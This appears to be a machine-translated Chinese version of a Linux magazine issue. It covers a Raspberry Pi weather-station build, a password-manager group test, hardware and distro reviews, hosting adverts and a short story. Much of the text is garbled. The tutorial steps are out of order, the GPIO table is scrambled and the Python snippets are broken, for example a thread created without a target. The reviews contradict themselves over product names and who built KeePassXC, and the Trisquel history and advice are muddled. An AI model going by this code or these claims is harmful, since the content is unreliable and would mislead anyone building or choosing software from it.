

# 构建气象站

## RTFM...（读手册）

在我们写出第一份略有 Bug 的代码初稿后，我们弄丢了说明书。网上似乎找不到这个特定套件的数字版本，所以我们只能苦思摸索，这是一次有趣的冒险，但可能不是你心中的美好时光——所以，无论如何，不要丢掉本手册！

## 树莓派 GPIO BCM 编号

| 5 | UART | 14 | 15 | 18 | 23 | 24 | 25 | 6 | I2C0 | 12 | 16 | 20 | 21 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---||
| | | | PWM | | | | | SDA | SDA | PWM | | SCL | | |
| 1 | 2 | 3 | 4 | 17 | 22 | 27 | | | | | | | | |
| | | | GPIO | | | | | | | | | | | |
| 3V | | | | 1 | | | | | | | | | | |
| 3V3 | | | | | | | | | | | SPI | | |

这将安装 `python-cloud`。在使用 Python 3（强调 3）与温度计交互之前，你需要所有这些。解决这个谜题可能需要几个小时；幸运的是，多亏了我们，你不需要这样做。

## 11 对象

现在，我们需要创建传感器的实例，并在此时激活它们：

```
sensor = Sensor()

wind_sensor = DigitalInputDevice(17, True)

rain_sensor = DigitalInputDevice(27, True)
```

## 08 树莓派预编程设置

现在在将其引入代码之前，还有最后一步。运行 `/etc/boot` 并添加以下行：

```
dtoverlay=w1,gpio4
```

其中 `gpio4` 是你的 DS18B20 的 GPIO（不是地线或电源引脚，而是树莓派用于发送接收数据的引脚）。在我们之前的示例中，我们使用了 BCM 4，即引脚 7。相信我们吧：

## 09 开始编码

现在硬件已经就绪，预配置也已完成，我们可以开始为我们的天气编程了。首先，让我们导入所有必需的模块：

## 12 设置函数

使用全局变量，我们可以创建一个函数来定义降雨量的行为。我们将让用户打印一条消息来告知用户：

```
def rain():

  global bucket_count

  bucket_count = bucket_count + 1

  print("Rainfall is currently " + str(bucket_count) + ":")
```

## 13 激活传感器

我们将通过传感器激活来触发雨量计，并运行函数监控雨量并将其报告给用户：

```
raindata = threading.Thread(name='rain')

raindata.start()

rain_sensor.activated = True
```

## 10 全局常量

接下来，我们将设置一些变量来记录各种数字。在使用 Python 3 与温度计交互之前，你需要所有这些内容：

```
wind_count = 0

bucket_count = 0

CM_IN_M = 0

interval = 5

ADJUST = 10000

SECS_IN_HOUR = 3600

BUCKET_SIZE = 27
```


# 14 函数与传感器

现在你可能想使用 USB 集线器和 HDMI 适配器临时连接鼠标、键盘和显示器，同时我们在设备上编写代码。一旦设置好并在关闭防水容器之前，可以移除它们。实时显示数据：


> ### 合作产生力量
> 这是一个非常适合物理计算感兴趣的工程师和想要测试编程能力的程序员协作的项目。这个套件非常符合树莓派基金支持新一代“数字制造者”的理念。这里是我们的团队，从左到右：Nadia、Olivia、Calvin、Weronome、Elshita Khastana 和 Devanka。如果你想折腾树莓派，创建自己的电路并编写相应的代码，那么这个项目适合你。通过引入监测环境光、噪音和污染水平的传感器，将这个套件推向新高度并不困难。

# 15 价格计算与零件购买

Maker 的套件花费 85 英镑。作为一项实验，我们在 AliExpress（www.aliexpress.com）上计算了零件价格并能够匹配成本，即使算上运费。事实上，价格是透明的，Maker 在这个套件上的利润并不高。

如果你想自己制作一个，你需要订购物品：

- 风传感器（风速计）30英镑
- DS18B20 1英镑
- 电阻 0.80英镑（100个欧姆）
- 树莓派 Zero W 15英镑
- 施耐德 ENNO507 EP 55 接盒 5英镑
- 密封圈 1英镑
- USB 集线器 10英镑
- 雨量计/水位 10英镑

# 16 下一步工作

为了让这个站变得真正便携，你可以在接盒中添加部件为树莓派供电。有了无线连接后，你可以通过 SSH 或 VNC 远程监控气象站。你还可以连接触摸屏或 LCD 来显示读数。

你可能还想添加的额外传感器包括运动传感器、湿度传感器、用于压力的气压计、电容土壤湿度传感器、MQ 气体传感器。

# 使用树莓派打造你自己的项目

学习使用树莓派打造个人项目所需的电子、计算和编程技能，让你的想象力飞驰畅翔。

# 初学者树莓派

开始使用树莓派你所需的所有知识

- 分步设置教程
- 了解树莓派核心要点
- 100% 独立完成

# 现已发售

涵盖每款 Pi 型号的指南



订购非常简单。请访问：
www.myfavouritemagazines.co.uk
或从指定的超市和报刊店购买

# 评测

81 Group 测试 | 86 Hardware | 88 Distro | 90 免费软件



## 团体测试

## 密码管理器

生成长且复杂、难以记忆的密码，并将它们的检索工作委托给这些工具之一。

## Bitwarden
Bitwarden 为个人和企业用户设计，提供原生跨平台桌面应用版本，并可以集成到所有流行的网络浏览器。它基于 AGPL v3 协议发布，由于是以 AppImage 形式分发的，因此可以在任何发行版上运行。
https://bitwarden.com

## KeePassXC
KeePassXC 由流行应用 KeePass 用户社区创立，除了针对特定发行版的安装程序外，它还提供主程序和包。它独立发布，支持 YubiKey 双因子身份验证。
https://keeppassxc.org

## LastLock
这款加密应用自称为运行在 Windows 和 Linux 上的轻量级便携密码管理器。你可以从 USB 闪盘运行该程序，从而在任何计算机上访问密码。它拥有令人印象深刻的功能。
https://cpunk-security.com

## Password Gorilla
Gorilla 密码管理器完全能够存储所有的登录凭据。它功能齐全，在多年未活跃后，该应用程序的开发再次加快。它拥有直观的前界面，对新用户非常友好。
https://github.com/zdia/gorilla

www.linuxuser.co.uk 81

# 密码管理器评测

## Bitwarden

一个跨越多个平台和设备的功能丰富的应用

## KeePassXC

这款开源骨干的延续作没有让人失望


- 如果你发现身边没有任何安装 Bitwarden 的设备，你可以通过它的网页界面访问登录凭据



- 如果你是 KeePassXC 的新手，可以翻阅项目的快速入门指南来配合该程序使用

### 安全加密

该应用使用端到端加密，并使用 AES 256 位和 PBKDF2 来保护你的数据。Bitwarden 在主密码传输到服务器之前还会对其进行哈希处理和加盐。你还可以通过如 Google Authenticator 等身份验证器应用使用双因子身份验证。

### 安全加密

KeePassXC 提供了 AES-256、Twofish 和 ChaCha20 算法供你加密密码数据库。它允许你使用主密码来保护数据。它的独特之处在于使用了 YubiKey 的挑战响应支持来增加安全性。

### 密码管理

Bitwarden 将你加密后的密码存储在 Microsoft Azure 云中。与某些竞争对手不同，它不允许你创建多个库，但你可以创建包含不同条目的多个文件夹。你还可以将经常访问的项目标记为收藏。你也可以使用 URL 或用户名搜索条目。

### 密码管理

KeePassXC 允许你创建多个密码数据库，并具有添加和设置密码过期日的功能，同时为条目使用自定义图标。你可以轻松地将应用程序连接到浏览器扩展。除了提供密码，KeePassXC 还可以将密码传递给你的 ssh 代理。

### 界面

桌面应用和浏览器界面都很整洁，使用和操作直观。两个应用都允许你编辑和修改细节、创建复杂密码、使用双因子身份验证并良好地配置应用设置。

### 界面

测试中，没有哪个比另一个更直观，但对于初次用户来说，保持其运行所需的简单步骤可能会让他们困惑。该应用提供了大量的触摸功能，可能会让人无从下手，而且相当基础的文档拉低了整体水平。

### 功能

该应用从两个不同的源导入密码，包括几个网络浏览器。它具有许多实用的易用功能；例如，如果你在库中有相应的条目，就可以导入打开账户的登录详情。Bitwarden 提供了 Android 和 iOS 应用，以及从其进行的 Web 端导入。

### 功能

你可以使用 KeePass 来验证 SSH 会话。管理器还支持 KeePassXC 挑战响应密钥生成，并可以生成基于时间的一次性密码（OTP）。它还有一个密码和短语生成器，只要是 CSV 格式，就提供自动填充表单的选项。

### 总体

Bitwarden 在各个方面得分都很高。它拥有无可挑剔的安全信誉，并利用云存储帮助你跨平台和设备管理密码。

### 总体

KeePassXC 履行了所有承诺，对于熟悉该程序的用户来说是一个很受欢迎的补充。但在界面扩展方面，用户可能会遇到困难。

## LastLock

## Password Gorilla

一个拥有简单界面的加密应用

一个功能齐全且不加花哨的密码管理器


- 你可以使用 LastLock 的密码生成器根据各种标准设计随机密码



它缺乏正式的更新，但 Password Gorilla 提供了关于使用策略的内置帮助

### 安全与加密

### 安全与加密

LastLock 是一个提供隐私便利性的简单密码管理器。该应用使用 128 位 AES 算法来保护存储密码的库。与它的许多竞争对手不同，LastLock 不会在闲置后自动锁定数据库。

与它的竞争对手一样，Password Gorilla 使用主密码锁定身份。该应用还使用了密钥强化技术来防止破解攻击。

### 密码管理

### 密码管理

LastLock 在单个便携数据库中填充密码。该应用程序根据预定义的类别对密码进行分类。再次，与其竞争对手不同，LastLock 只存储 URL、身份验证信息以及每个条目的图标。通过 Password Gorilla，你可以将多个数据库管理到自定义组和子组。

### 界面

### 界面

该应用最大的优点之一是其简单的界面。使用该应用相当容易，并在你首次打开它时提供帮助信息。

它的界面相当直观，应该不会给用户带来任何问题。该应用的所有功能和可调参数都整合在这个空间内，但标签清晰。

### 功能

### 功能

由于它易于使用，该应用的功能不如我们之前提到的其他应用那么丰富。尽管如此，它包含一个自定义的密码生成器，并允许将密码数据库导出为纯文本，这是你非常需要的。

### 总体

### 总体

LastLock 是一个界面整洁且易于使用的应用。它没有浏览器集成，在功能方面无法与其他产品竞争，尽管它包含了基本功能且具有便携性。

尽管缺乏专门的浏览器扩展，但正如你所看到的，作为浏览器使用并没有真正的缺陷。然而，最大的缺点是其缓慢的开发进度。

## 密码管理器测评

## 简评：我们的结论对比与差异分析

| 安全与加密 | 端到端 AES-256 加密，并对主密码进行加盐和哈希处理 | Bitwarden | KeePassXC | LazLock | Password Gorilla |
|---|---|---|---|---|---|
| 密码管理 | | 采用了几种更优秀的加密算法，并支持密钥加密 | 一个非常简单的应用，使用 AES-128 算法加密信息 | 同时加密主密码和数据存储，并防止暴力破解攻击 | 可以创建多个数据存储并将密码分若干组和子组 |
| 界面 | 桌面版和浏览器扩展都有清晰且直观的功能 | GUI 应用和浏览器扩展新用户可能需要一些时间来适应 | 简单易于导航是 LazLock 的最强点之一 | 简单的 GUI 并不突出，但增强了可用性 |
| 功能 | 充斥着大量实用的功能，帮助你存储和检索密码 | 还能验证 SSH 会话并支持 YubiKey | 功能上与同类产品相当，但独特之处在于支持便携式安装 | 可以导入和导出 CSV，并带有用于构建的密码生成器 |
| 总体 | 在界面和密码管理方面评分很高 | 拥有安全的凭据存储，但界面对新用户很有吸引力 | 一个非常简单且便携的程序，缺乏花哨功能 | 应用本身没有明显的缺陷，但有很大的开发空间 |

## 优胜者是 ...

Bitwarden
此组测试中的所有工具都如广告所示。许多产品列出了任何固有的缺点，但它们仅凭实力就超越了竞争对手。

LazLock 是一个典型的例子：它提供的不仅仅是存储密码的方法。它易于使用，你可以将应用和所有身份信息随身携带并直接从 USB 闪存运行。Password Gorilla 的界面简洁，但你可以在其中找到额外的功能和可调的设置。然而，该应用受限于其开发的不足。

同样，由于 KeePassXC 开发速度缓慢感到沮丧，我们启动了 KeePassXC 项目，它具备了顶级密码管理器所需的所有功能。它允许多次加密，你可以将其与密钥文件结合。它支持 YubiKey 挑战-响应身份验证。你可以使用它的浏览器扩展将身份信息直接获取到网页。尽管有这些功能，

Bitwarden 提供了额外的安全功能，例如针对 YubiKey 的年度费用为 10 美元。其代价是不确定性；应用的完整功能需要查阅文档。这本身并不坏，但 Bitwarden 让密码管理器的各个方面都变得轻而易举。它的桌面应用、浏览器扩展和移动应用在让实用功能变得直观方面表现得出色。

另一个测试候选者 Bitwarden 将你的密码存储在远程 Microsoft Azure 云上。虽然它是端到端加密，但这一点可能会让某些用户感到不舒服；如果你是其中之一，可以使用 Docker 在你自己的设备上部署 Bitwarden。

Mayank Sharma

## GIZMODO UK

不寻常的科技网站

## 探索科技小产品、科学、设计及更多新世界

- 来自技术前沿的迷人报告
- 探索创新、文化和极客文化
- 加入英国领先的在线科技社区

www.gizmodo.co.uk

twitter.com/GizmodoUK facebook.com/GizmodoUK

## Devolo dLAN 1200 Triple+ 启动套件测评

## 硬件

## Devolo dLAN 1200 Triple+ 启动套件

Devolo 经典的电力线系列得到了小幅改进，并承诺更大的覆盖范围。

| 价格 | £130 |
|---|---|
| 网站 | www.devolo.com |
| 端口 | 3x 以太网 RJ45 |
| 最大/典型功耗 | 6.8/3.7W |
| 衰减滤波器 | -22 dB |
| 滤波器特性 | -45 dB |
| 安全性 | AES 256位 |
| 软件 | Devolo Cockpit 套件支持 Ubuntu Linux |

如果你想扩展家里或办公室的网络，但不想复杂的布线或使用 Wi-Fi，那么唯一实行的解决方案就是电力线网络。通过利用电力线作为数据传输通道，你避免了对 Cat5/6 布线的需求，并可以获得许多优势。

价格为 130 英镑。虽然不是 Devolo 专利，但该套件的突出特点非常简单：旁通（passthrough）。这是一个非常理想的功能，因为你不需要为了分配网络而损失功率瓦。Devolo 是一家总部位于德国的制造商。在该领域有更便宜的品牌和一些竞争对手，但对于愿意多花一点钱的人，Devolo 的电力线产品做工精良，并带有三年保修。该公司发送了最新的 dLAN 1200 Triple Starter 套件——零售价为 130 英镑。

dLAN 套件包含两个符合 HomePlug 标准的模块、路由器连接器 MT2764 和 MT2765。一个尚不明，但 MT2768 比其他的大，尺寸为高 142mm，宽 70mm，深 40mm。

## Review Trisquel GNU/Linux 8.0


## 发行

## Trisquel GNU/Linux 8.0

除了 2.5GB 的主发行版外，Trisquel 还拥有一个 950MB 的 Mini 版本以及基于 Sugar 环境的 TOAST 版本。

自由软件基金会喜爱的发行版在停滞四年后回归了。

如果你没有听说过 Trisquel，那是可以被原谅的；该发行版的最后一次发布是在四多年前。但正如发布公告提到的，自由软件基金会（FSF）自上次以来已决定举办 LibrePlanet 会议，以为自己本身创建一个一套新的基础设施。

它并不遵循 GNU 的自由软件准则。但 Trisquel 不仅仅是重新封装 Ubuntu，因为寻找非自由内容是一项非易事的工作。此外，当开发者采用一个非自由组件时，他们必须在不影响其他组件的情况下处理该环境，这是一个复杂且繁琐的过程。

Trisquel 由西班牙的维戈大学创建，旨在创建一个支持加利西亚语的教育发行版。但该项目超出了其初始目标，变成了一个支持多语言的自由发行版。2005年4月，它被理查德·斯尔曼接管，现在由 FSF 理会成员 Rubén Rodríguez领导。

Trisquel 使用 Linux-libre 内核，该内核以 Linux 内核为基础，并移除任何不包含源代码或以专有许可发布源代码的自由软件。这并不是该发行版的唯一目标。它的开发者还致力于让 Trisquel 看起来更有吸引力且易于导航。

对于普通用户来说，这个基于 Ubuntu 的 Trisquel 似乎只是通过剥离非自由软件包来重新上游软件包——

Trisquel 使用修改过的 Ubuntu 安装程序来让用户遵循某些最佳实践。



> 当开发者移除一个组件时，他们必须确保其保持在自由版本，且不会对其他组件产生不利影响。

为了确保数据的安全和隐私，像 Trisquel 这样的系统会要求用户通过提供安全密钥来对其分区进行加密。你也可以选择覆盖空磁盘空间以获得更高的安全性。

Trisquel 8.0 的重大变化是它基于 Ubuntu MATE 桌面环境，取代了之前的 3D MATE 合成器功能，后者需要更多的图形驱动才能正常运行。Trisquel 在 Linux 内核开发进程方面落后了。

另一个缺点是 Trisquel 8.0 是基于 Ubuntu LTS 16.04 的发布周期。然而，好消息是，它可以在基于最新 Ubuntu 18.04 LTS 的 Trisquel 9.0 上运行，后者已经准备就绪。缺点无疑是 Trisquel 从 Ubuntu 中剥离专有部分所需的时间。尽管如此，你应该跳过 Trisquel 8.0，因为团队将对该版本提供安全更新，直到 2021 年 4 月。

## 优点

- 一个功能齐全且特性丰富的 Ubuntu 发行版，让用户掌握控制权。

## 缺点

- 开发处于处于一种不稳定的状态，最好等待上一个 Trisquel LTS 版本。

Trisquel 8.0 包含了我们选择的主流应用，如 LibreOffice 和 VLC，但也缺少许多目标。例如，我们在浏览时发现 Trisquel 使用的是 Firefox 的升级版本。然而，根据公告，Abrowser 非常适合并设计用于在不牺牲易用性的情况下最大化用户的隐私。除非用户通过此类扩展和地理定位器连接到特定网站，否则浏览器不会自行建立任何连接。Abrowser 还有一个隐私增强扩展列表，每当你启动浏览器或切换到新标签页时，这些扩展就会激活。

除了软件，它还提供了超过 25 个在线自由软件包的访问。它包括有关账户和更新的报告。考虑到发行版会对每个软件包进行审查和定制以确保它们不包含任何非自由部分，这一点尤为重要。

Mayank Sharma

## 总结

为了让发行版符合严苛要求而不剥夺自由的核心特性，付出的努力，是 Trisquel 成功应对的意识形态与实用主义之间的微妙平衡点。

## 新鲜的自由与开源软件

## 音乐播放器

### Elisa 0.1

#### KDE 第一款外观时尚的播放器发布

Linux 桌面并不缺少音频播放器，但流行的那些都早于它们运行的现代环境。KDE 开发者决定通过从零开始创建一个新的音乐播放器来解决这个问题。它被称为 Elisa。根据开发者介绍，该程序“努力变得简单且易用”。虽然它与 KDE 桌面集成得良好，但开发者希望它在 GNOME Shell、其他桌面环境或 Windows 和 Android 等平台上也能同样轻松自如。

Elisa 目前具备了其他现代音乐播放器的所有花哨功能，且功能完备。真实的界面允许你通过艺术家、曲目搜索音乐，还可以创建和管理播放列表等其他功能。

你可以从它的 CopR 仓库（https://copr.fedorainfracloud.org/coprs/elisa/elisa/）安装该播放器。Ubuntu 也有 PPA，但这里有一些可能帮助你安装的报告。


上方。应用程序努力变得简单且易用。

- Elisa 目前具备了其他现代音乐播放器的所有花哨功能，且功能完备。
- 真实的界面允许你通过艺术家、曲目搜索音乐，还可以创建和管理播放列表等其他功能。
- 你可以从它的 CopR 仓库（https://copr.fedorainfracloud.org/coprs/elisa/elisa/）安装该播放器。Ubuntu 也有 PPA，但这里有一些可能帮助你安装的报告。

## 托管服务列表

推荐托管服务商：
www.netcera.co.uk 03330 439780

> Netcera 是欧洲领先的 Web 托管服务供应商之一，客户遍布全球 75 个国家。

## 关于我们

Netcera 成立于1996年，是欧洲领先的 Web 托管服务供应商之一，客户遍布全球 75 个国家。它是领先的 IT 基础设施提供商，为全球企业提供机柜托管、独立服务器和托管基础设施服务。

## 我们提供的服务

- 托管主机：提供具有成本效益、可靠且安全的全方位解决方案
- 独立托管：从单台服务器到整机柜，均提供免费设置服务和通用带宽额度
- 云托管：
    - 具有扩展特性的 Linux、Windows 和私有云解决方案
    - 数据中心机柜，从四核服务器到智能服务器，设置速度快且支持全方位定制

## 专业人士的五点建议

**01 优化您的网站图片**
对于网络，请确保所有图片都已针对网页进行了优化。尝试免费使用 jpeg-mini.com 或搜索“Web 图像优化器”。

**02 托管您的网站**
确保您的网站位于英国，而不是仅为了本地需求。如果您的服务器位于海外，可能会影响您在 google.co.uk 上的搜索引擎排名——请在 www.check-host.com 检查您的网站所在地。

**03 您是否定期备份？**
如果您今天丢失了网站，对您的业务会产生什么影响？始终进行自己的备份至关重要；即使您的托管服务商提供了备份方案，对自己的数据负责并对其进行保护也是同样重要的。

**04 尝试排名**
Google 在 2015 年进行了一些调整。如果您在 Google 上的排名上遇到困难，请确保您的网站具有移动端响应能力。此外，Google 建议联系您的托管服务商为您的网站设置并强制开启 HTTPS。

**05 避免廉价托管**
我们相信你看过那些 1 英镑就能获得优质托管的广告！但一个月内客户会被挤得满满当当？他们宁愿使用 20 英镑的廉价硬盘，也不愿使用 1000 英镑的企业级 SSD 吧？记住：一分钱一分货。

## 客户评价

**David Brown**
我购买了一个 SSL 证书。购买过程非常轻松，仅需几分钟。我的困难在于安装证书，这是我永远做不到的。然而，我很快提交了支持工单，支持团队在几小时内就联系了我们。支持团队为我安装了证书。

**Tracy House**
我们在 Netcera 使用了多项服务，网络连接是顶级的——运行时间长且支持到位。技术支持非常有帮助，且回复迅速。

**J Edwards**
在尝试了其他托管公司后，我们似乎拥有遥遥领先最好的客户服务，而且包含了所有所需功能。共享托管非常易用，控制面板也非常全面……

## 顶级托管

## SSD 网页托管

www.cwcs.co.uk | 0800 1 777 000

CWCS 托管服务是英国领先的托管专家，它提供全面的托管产品、服务和支持。高技能员工不仅是托管专家，还致力于提供卓越的客户体验，并对所做的工作充满热情。

- 机柜托管
- VPS
- 100% 网络可用性
- 共享托管
- 云托管
- 域名

www.bargainhost.co.uk | 0843 289 2681

自2001年以来，Bargain Host 旨在为英国提供最低价格的托管。它已成功实现这一目标，并建立了包含许多满意客户的大型数据库。它还因提供卓越的托管服务而获奖。

## 价值托管

## 价值 Linux 托管

## elasticohosts

www.2020Media.com

patchman-hosting.co.uk | 0162 424 237

elasticohosts.co.uk | 0207 83250

新用户可预装 WordPress 或享受免费的托管托管服务。WordPress 服务在第一年完全免费。

我们以“专业且卓越的服务”闻名，并支持全英国的所有用户、开发者和经理。

ElasticHosts 为企业提供简单、灵活且具有成本效益的托管解决方案。为全球企业提供性能和扩展性。我们的工程师团队通过电话、电子邮件和工单系统提供 24 小时的卓越支持。

Linux 托管是家庭用户、企业用户和网页设计师实现成本效益且强大托管的极佳解决方案。无论您是在构建小型作品集还是运行数据库驱动的电子商务网站，都有适合您的 Linux 托管解决方案。

- 任何操作系统上的云服务器
- Linux 操作系统容器
- 世界级 24/7 支持
- 学生托管优惠
- 网站设计器
- 域名 

## 小微企业托管

## 快速、可靠的托管

www.hostapa.co.uk | 0850 01 7126

www.bytemark.co.uk | 01904 890 890

HostApa 是一家屡获殊荣的托管服务和绿色托管领导者。它提供功能最全的托管包之一，以及 24/7 客户支持、学习资源和卓越的可靠性。

Bytemark 成立于2002年，是“英国云与数据库托管的专家”。其营销团队提供专业、透明的定价、由支持人员提供的免费软件更新，以及价格公平的高质量托管硬件。

www.hetzner.de/us | +49 (0) 9831 5050

Hetzner 是一家专业的 Web 托管提供商和经验的数据中心运营商。自1997年以来，该公司一直提供私有和公共高性能托管产品，以及网站高效运行的基础设施。稳定技术、诱人价格以及灵活托管与服务的结合，使 Hetzner 能够不断提高其在国内和国际的市场地位。

- 独立和共享托管云
- 机柜托管
- 互联网域名
- SSL 证书
- 存储盒
- 托管服务

# 短篇

## 史蒂芬·奥姆 (Stephen Oram)

关注我们
Facebook: facebook.com/LinuxUserUK
Twitter: @linuxuserm

# 短篇

## 区块链的青蓝色

Endi 登录并露出了微笑。他很早地到达了按付费电脑站。尽管连接速度慢得令人不可思议，但在所有职位被抢光之前，他成功找到了一天的工作。幸运的是，凭借一些前期的材料和大量骗取额外收入的机会，

他向老板点头示意，把包挂在肩上，朝门口走了三步。当他进入那片从对接点摇晃的镜像刀片池时，他通过这些代码的独特组合进行支付，并将根据使用时间收费。

在等待时，他想象着接下来的几天会怎样。他有工作积分，可以租住超过一天的公寓，也许是一周。再也不用在街上流浪，再也不用处于无所选的状态。

距离到达工作地点还有十五分钟。他本应该能赶上的。迟到不是选项，尽管他正以刀片允许的最快速度移动，但依然很慢。

薄薄的广告膜铺在每个季节的上方，营销着这件特定的政府项目。

这就是行动中的资本主义民主。如果你感兴趣，就支付相关费用，并获得同等的投票权。否则，你对该问题没有投票权。

当刀片带他穿过人群时，他避免了眼神交流。其中一些人会生气，而他没有时间浪费。

胸部皮肤下的政府芯片震动起来，触发了一个与他注册过感兴趣的内容的话题。这既烦人又有趣。

这在十分钟前正很适合他。

当他到达柜台时，遇到了一个穿黑色西装的女人。他读了她的碎片信息：碎片化退税，20 种奢侈品，打 5 折，剩余 20 分钟。

她住在政府资助的宿舍里，因为她无法胜任这份工作，在街上不受欢迎。他支付了微税并据理争辩，因为他确定自己有时间参加今天的工作。他犹豫了。

他需要这份工作。

他投了票。

只剩五分钟了。他没能赶上。这一次，又要错过了。

手指按下屏幕，他将当天的工作记录给了任何能那时赶到的人。

他耸了耸肩，断开了街上刀片的连接，尝试按原来的路走回去。

总会有明天。

## 史蒂芬·奥姆 (Stephen Oram)

史蒂芬编写近未来科幻小说。他曾是嬉皮士、宗教定居者和盲人无政府主义者；他在矛盾中茁壮成长。他出版过两部小说《量子忏悔》（Quantum confessions）和《金融》（Finance），并收录于多部文集中，如《吃石头和其他故事》（Eating Rocks and Other Stories）、《晨星》（The Morning Star），后者是 2017 年最激进的小说之一。

